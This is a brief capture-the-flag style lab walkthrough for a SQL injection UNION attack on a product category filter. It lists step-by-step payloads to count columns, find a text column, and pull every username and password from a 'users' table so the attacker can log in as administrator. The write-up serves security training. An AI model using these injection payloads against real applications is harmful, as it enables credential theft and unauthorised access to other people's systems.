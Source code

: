 
## Description:

this lab contains a SQL injection vulnerability in the product category filter, it is susceptible to UNION attacks

the database contains a table called 'users', with columns called 'username' and 'password'

to solve the lab perform a SQL injection UNION attack that retrieves all usernames and passwords in the same column and log in as the 'administrator' user

## Solution:

1.\ discovering how many columns are being returned

	' UNION SELECT NULL,NULL--
[trial and error until the application stops returning an error]

2.\ testing which column is returning a string compatible data type

	' UNION SELECT 'abc',NULL-- \\ Fails, the column is returning an integer
	' Union SELECT NULL,'abc'-- \\ Success

3.\ querying for the concatenated values of 'username' and 'password' parameters:

	' UNION SELECT NULL,concat(username,password) FROM users--
[concat() is used in postgresql, which was returned from a previous 'version()' ran in one of the parameters]

the || [double-pipe] concatenation operator can also be used in this case

	' UNION SELECT NULL,username||':'||password FROM users-- 

